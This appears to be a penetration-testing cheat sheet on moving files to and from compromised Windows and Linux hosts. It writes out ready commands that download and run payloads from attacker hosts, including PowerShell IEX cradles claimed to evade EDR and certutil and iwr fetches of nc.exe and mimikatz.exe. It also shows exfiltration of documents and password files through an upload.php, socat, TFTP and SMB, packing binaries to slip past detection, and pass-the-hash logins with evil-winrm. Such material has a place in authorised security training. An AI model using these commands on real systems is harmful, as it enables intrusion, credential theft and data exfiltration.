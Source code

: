 ### Using third-party file sharing links
https://www.file.io/  
https://www.gofile.io/

### Powershell
```
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.11.0.4/wget.exe','C:\Users\offsec\Desktop\wget.exe')" 
powershell -NoProfile -ExecutionPolicy Bypass -NoLogo -NonInteractive -c "(new-object System.Net.WebClient).DownloadFile('http://10.11.0.4/wget.exe','C:\Users\offsec\Desktop\wget.exe')"
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1

d_f.ps1
$webclient = New-Object System.Net.WebClient
$url = "http://10.11.0.4/evil.exe"
$file = "path\new.exe"
$webclient.DownloadFile($url,$file)
PS:IEX (New-Object System.Net.WebClient).DownloadString('path/d_f.ps1') -- Cant be detected by EDR
```
```
upx -9 nc.exe(compress to be smaller)
exe2hex -x nc.exe -p nc.cmd(convert the file to hex and instruct powershell.exe to assemble it back into binary)
```
```
iwr -uri http://192.168.45.214:8000/mimikatz.exe -Outfile mimikatz.exe
```
#### Upload Files using enabled outbound http traffic
```
save upload.php under kali /var/www/html
<?php
$uploaddir = '/var/www/uploads/';

$uploadfile = $uploaddir . $_FILES['file']['name'];

move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile)
?>
sudo mkdir /var/www/uploads
ps -ef | grep apache
sudo chown www-data: /var/www/uploads
powershell (New-Object System.Net.WebClient).UploadFile('http://10.11.0.4/upload.php', 'Path/important.docx')
```

### SCP Copy file from remote machine to local tmp
scp john@localhost:/var/tmp/CopyMe.txt /tmp  
scp [OPTION] [user@]SRC_HOST:]file1 [user@]DEST_HOST:]file2  
scp -P 2222 student@192.168.79.112:/usr/share/kali-defaults/web/img/password.png /home/kali/

### NC transfering files
```
nc -lvnp 6666 > incoming.txt
nc -nv 192.168.65.61 6666 < incoming.txt
```

### Socat transfer files
```
sudo socat TCP4-LISTEN:443,fork file:secret_passwords.txt  
socat TCP4:10.11.0.4:443 file:received_secret_passwords.txt,create
```

### Pure-ftpd (Linux - Linux)
#### install
/ftphome(pure-ftpd home dir, get,put can transfer files to here or from here)
```
sudo apt update && sudo apt install pure-ftpd  
sudo groupadd ftpgroup  
sudo useradd -g ftpgroup -d /dev/null -s /etc ftpuser  
sudo pure-pw useradd kali(ftp login username, anyname but ftpuser) -u ftpuser -d /ftphome(input below commands again if reinput this command)
sudo pure-pw mkdb  
cd /etc/pure-ftpd/auth/  
sudo ln -s ../conf/PureDB 60pdb  
sudo mkdir -p /ftphome  
sudo chown -R ftpuser:ftpgroup /ftphome/  
sudo systemctl restart pure-ftpd
```
#### Commands
ftp 10.11.0.4  
bye  
anonymous login:
user:anonymous,password:""
#### Upgrading a Non-Interactive Shell
python -c 'import pty; pty.spawn("/bin/bash")'  
#### mode
bin(binary mode)
ascii(ascii mode)
#### transfer files
```
Authentication first
1. attack machine put files under ftphome dir
2. get filename/put filename
```

### VBS to download files
usage: cscript wget.vbs http://10.11.0.4/evil.exe evil.exe(outfile)
```
strUrl = WScript.Arguments.Item(0)
StrFile = WScript.Arguments.Item(1) 
Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 
Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 
Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 
Const HTTPREQUEST_PROXYSETTING_PROXY = 2 
Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts 
 Err.Clear 
 Set http = Nothing 
 Set http = CreateObject("WinHttp.WinHttpRequest.5.1") 
 If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") 
 If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") 
 If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") 
 http.Open "GET", strURL, False 
 http.Send 
 varByteArray = http.ResponseBody 
 Set http = Nothing 
 Set fs = CreateObject("Scripting.FileSystemObject") 
 Set ts = fs.CreateTextFile(StrFile, True) 
 strData = "" 
 strBuffer = "" 
 For lngCounter = 0 to UBound(varByteArray) 
 ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) 
 Next 
 ts.Close
```
### TFTP to upload files
```
kali: 
sudo apt update && sudo apt install atftp
sudo mkdir /tftp
sudo chown nobody: /tftp
sudo atftpd --daemon --port 69 /tftp
windows xp, 2003 etc:
tftp -i 10.11.0.4 put important.docx
```
### Certutil(windows has this built-in)
```
certutil.exe -urlcache -split -f http://example.com/a.txt C:\Users\Public\nc.exe
```
### smb server to transfer file (Windows to linux)
```
linux:
mkdir tools folder
impacket-smbserver test(customized sharename) tools(share path)/ -smb2support

windows:
net use \\linuxIP\sharename
copy Passwords.kdbx(windows filename) \\kali ip\sharename\Passwords.kdbx
```
### Http
```
wget url
curl url -o saved_file_path
```
### Evil-Winrm
```
evil-winrm -i ip -u username -p password
evil-winrm -i ip -u username -H ntlm_hash
evil-winrm basic commands:
Upload usage: upload local_filename or upload local_filename destination_filename
Download usage: download remote_filename or download remote_filename destination_filename
```
